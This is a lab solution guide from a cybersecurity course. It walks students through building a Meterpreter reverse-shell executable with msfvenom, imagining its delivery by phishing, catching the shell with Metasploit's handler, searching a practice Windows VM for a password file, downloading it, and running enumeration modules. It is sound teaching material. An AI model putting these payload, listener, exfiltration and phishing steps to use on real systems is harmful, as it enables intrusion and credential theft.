 ## Solution Guide: Meterpreter Shells

The goal of this activity was to practice using Metasploit modules and payloads.

---

1. In Kali, create an executable payload for the target machine using `msfvenom`. You have been provided a template command to create your exploit. 

   Type and run the following command, but remember to update the `LHOST` with the correct IP:

     - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.8 LPORT=4444 -f exe > hack.exe`

   **Note**: We'll cover custom payloads in the next lesson. For now, just know that this payload will create a malicious `hack.exe` file. 

2. Remember, once the payload is created, the attacker needs to get their payload onto the victim's computer. For this activity, assume that your payload reached the victim's machine via social engineering. 

   In one or two sentences, describe how you might have used social engineering to deliver this payload to the victim machine. 

   -  You might have targeted an employee with a phishing email using information obtained from their LinkedIn and Facebook profiles.

   - The targeted employee opened the email that contained your malware called `hack.exe`, which installed it on to their local hard drive.

      
3. In DVW10, verify that `hack.exe` is on the victim machine. 

   * Navigate to the Downloads folder on the DVW10 VM and locate the EXE file.


     - Do not click on the file just yet. 

4. Return to Kali and run the commands needed to establish the reverse connection once the file has been executed.
   
   - Launch the MSFconsole in preparation for establishing the reverse connection. Then run the commands that will do the following tasks:

      - Launch MSFconsole:

         - `msfconsole`

      - Load the `exploit/multi/handler`:

         - `use exploit/multi/handler`

      - Set the payload to `windows/meterpreter/reverse_tcp`:

         - `set payload windows/meterpreter/reverse_tcp`

        ![Find 3](../../Images/FIND_3.png)

      - View the payload's options:

         - `show options`

      - Set `LHOST` to the IP of your Kali machine:

         - `set LHOST 192.168.0.8`
   
      - Set the `LPORT` to `4444` of your Kali machine:

         -  `set LPORT 4444`

          ![Find 4](../../Images/FIND_4.png)

      - Verify the option settings took effect:

         - `show options`

         ![Find 5](../../Images/FIND_5.png)


5. Run the exploit:

   - `exploit` or `run`

    **Note:** If you do not get a Meterpreter shell after a minute or two, go to the DVW10 machine and double-click on the `hack.exe` file to restart the listener.
  
    - Long idle times may cause the listener to close the connection. Double-clicking `hack.exe` forces the connection back up.

6. Now we will explore the exploited machine and begin our hunt for the target information.

   - As a warm-up, run the Meterpreter command that searches for files on the remote host:

      - `search -f <filename>`

      - `search -h`

      ![Find 6](../../Images/FIND_6.png)


7. Let's begin the hunt:

   - Search the remote filesystem for all files ending with `.jpg`:

      -  `search -f *.jpg`

       ![Find 7](../../Images/FIND_7.png)
   - Search the remote filesystem for a file called `password`:

      - `search -f password*`

   - Exfiltrate this file from the DVW10 VM:
     
      - `download 'C:\Users\IEuser\Documents\password.txt'`

       ![Find 8](../../Images/FIND_8.png)

### Bonus

Although security professionals are not expected to be familiar with every module and payload offered in Metasploit and Meterpreter, you will be expected to find the tools you need through online searches. 

Try to complete the following tasks: 

- Find and use a post-exploitation module that enumerates network shares (Windows Gather SMB Share Enumeration via Registry) on the DVW10 machine:

   - `run post/windows/gather/enum_shares`

   - Results show there are not shares running on the VM. 

- Find and use a post-exploitation module that checks if the DVW10 computer is running inside a VM:

     -  `run post/windows/gather/checkvm`
     
     -  Results show that it is a Hyper-V VM. 

- Launch a command shell within Meterpreter and perform enumeration that displays user account information on the breached DVW10 computer:

    - `net users`

     ![Shell](../../Images/SHELL.png)

____

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
